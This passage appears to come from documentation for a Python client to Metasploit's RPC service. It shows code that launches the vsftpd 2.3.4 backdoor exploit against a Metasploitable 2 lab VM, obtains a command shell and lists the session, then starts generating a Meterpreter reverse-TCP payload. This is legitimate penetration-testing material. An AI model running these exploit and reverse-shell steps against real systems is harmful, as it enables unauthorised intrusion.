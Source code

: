 ```python
```

Let's use a [Metasploitable 2](http://sourceforge.net/projects/metasploitable/) instance running on a VMWare
machine as our exploit target. It's running our favorite version of vsFTPd - 2.3.4 - and we already have our exploit
module loaded. Our next step is to specify our target:

```python
>>> exploit['RHOSTS'] = '172.16.14.145' # IP of our target host
>>>
```

Select a payload:

```python
>>> exploit.targetpayloads()
['cmd/unix/interact']
>>>
```

At this point, this exploit only supports one payload (`cmd/unix/interact`). So let's pop a shell:

```python
>>> exploit.execute(payload='cmd/unix/interact')
{'job_id': 1, 'uuid': '3whbuevf'}
>>>
```

We know the job ran successfully because `job_id` is `1`. If the module failed to execute for any reason, `job_id` would
 be `None`. If we managed to pop our box, we might see something nice in the sessions list:

```python
>>> client.sessions.list
{1: {'info': '', 'username': 'jsmith', 'session_port': 21, 'via_payload': 'payload/cmd/unix/interact',
'uuid': '5orqnnyv', 'tunnel_local': '172.16.14.1:58429', 'via_exploit': 'exploit/unix/ftp/vsftpd_234_backdoor',
'exploit_uuid': '3whbuevf', 'tunnel_peer': '172.16.14.145:6200', 'workspace': 'false', 'routes': '',
'target_host': '172.16.14.145', 'type': 'shell', 'session_host': '172.16.14.145', 'desc': 'Command shell'}}
>>>
```

### generate a payload

Create a payload module object:

```python
payload = client.modules.use('payload', 'windows/meterpreter/reverse_tcp')
```

View module information as described above

Setting runoptions and generate payload
